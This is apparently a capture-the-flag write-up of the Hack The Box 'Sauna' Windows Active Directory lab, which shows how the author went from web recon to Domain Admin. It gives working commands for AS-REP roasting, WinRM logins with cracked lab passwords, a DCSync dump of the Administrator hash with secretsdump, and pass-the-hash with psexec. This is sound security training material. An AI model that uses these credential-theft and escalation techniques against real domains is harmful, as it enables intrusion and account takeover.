## Overview

Sauna is an easy Windows AD box. The path:

- Build a username list from the bank website's team page
- AS-REP roast `fsmith` and crack the hash
- Run WinPEAS, which recovers autologon creds for `svc_loanmgr`
- That account has DCSync rights — dump the Administrator hash and pass-the-hash



## Recon

```
nmap -p- -sCV -oN nmapscan 10.10.10.175
```

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows AD LDAP (Domain: EGOTISTICAL-BANK.LOCAL)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows AD LDAP (Domain: EGOTISTICAL-BANK.LOCAL)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
9389/tcp  open  mc-nmf        .NET Message Framing
```

DNS, a website on 80, Kerberos, LDAP and WinRM. The domain is `EGOTISTICAL-BANK.LOCAL`.

## Enumeration: website

Directory scan with gobuster:

```
gobuster dir -u http://10.10.10.175/ \
  -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --threads 40
```



The team members page lists staff names, which I turned into a username list:


## Foothold: AS-REP roasting

**1. Build the user list** from the names on `about.html`.



**2. AS-REP roast** with GetNPUsers:

```
impacket-GetNPUsers -no-pass -usersfile users.txt -request -format hashcat \
  -outputfile ASREProastables.txt -dc-ip 10.10.10.175 'egotistical-bank.local/'
```

This pulls a hash for **`fsmith`**.



**3. Crack it** with John:



Credentials: **`fsmith:Thestrokes23`**

## Initial access

Port 5985 (WinRM) is open, so connect with evil-winrm:

```
evil-winrm -u fsmith -p Thestrokes23 -i 10.10.10.175
```



Enumerating as `fsmith` — mostly locked down:

- `whoami /priv`

  
- `systeminfo` — access denied

  
- scheduled tasks — access denied

  
- running apps — access denied

  
- domain users

  
- service account details

  

## Privilege escalation: WinPEAS → svc_loanmgr

Running WinPEAS turns up an autologon password stored in the registry:



Credentials: **`svc_loanmanager:Moneymakestheworldgoround!`**


Connect as that account with evil-winrm:

```
evil-winrm -u svc_loanmgr -p Moneymakestheworldgoround! -i 10.10.10.175
```



Enumerating as `svc_loanmgr`:

- `whoami /priv`

  
- `systeminfo` — access denied

  
- application list — access denied

  

## DCSync → Domain Admin

Upload SharpHound through evil-winrm and collect:





BloodHound shows `SVC_LOANMGR@EGOTISTICAL-BANK.LOCAL` has **`GetChangesAll`** on the domain — i.e. DCSync rights.



Mimikatz isn't practical from an evil-winrm shell, so use secretsdump to request the Administrator hash, authenticating with the `svc_loanmgr` password:

```
impacket-secretsdump egotistical-bank/svc_loanmgr@10.10.10.175 -just-dc-user Administrator
```



```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
```

Pass-the-hash as Administrator with psexec:

```
impacket-psexec egotistical-bank.local/Administrator@10.10.10.175 \
  -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```



Domain Admin. 🩸

## Dead ends

Worth recording what didn't pan out:

- **SMB** — enum4linux found nothing useful.

  
- **LDAP** — the `ldap-search` NSE script returned some metadata but nothing actionable.

  
- **windapsearch-go** — no output.

  
